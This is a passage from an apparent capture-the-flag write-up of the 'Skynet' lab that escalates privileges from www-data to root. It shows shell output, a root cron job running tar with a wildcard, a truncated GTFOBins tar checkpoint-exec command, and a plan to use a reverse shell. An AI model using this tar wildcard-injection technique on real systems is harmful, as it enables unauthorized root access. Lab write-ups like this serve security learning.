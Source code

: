 ```
www-data@skynet:/home/milesdyson$ ls -l
ls -l
total 16
drwxr-xr-x 2 root       root       4096 Sep 17  2019 backups
drwx------ 3 milesdyson milesdyson 4096 Sep 17  2019 mail
drwxr-xr-x 3 milesdyson milesdyson 4096 Sep 17  2019 share
-rw-r--r-- 1 milesdyson milesdyson   33 Sep 17  2019 user.txt
www-data@skynet:/home/milesdyson$ cd backups
cd backups
www-data@skynet:/home/milesdyson/backups$ ls -la
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Jun 10 11:44 backup.tgz
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson/backups$ 
```

so according to GTFO Bins  it is possible to use `tar` to become root

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/`

as `backup.sh` runs as cron job every minute:

```
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 * * * *   root  /home/milesdyson/backups/backup.sh
17 *  * * * root    cd / && run-parts --report /etc/cron.hourly
25 6  * * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6  * * 7 root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6  1 * * root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
www-data@skynet:/home/milesdyson/backups$ 
```

Let's create a script with reverse shell oneliner inside and run netcat in other terminal.
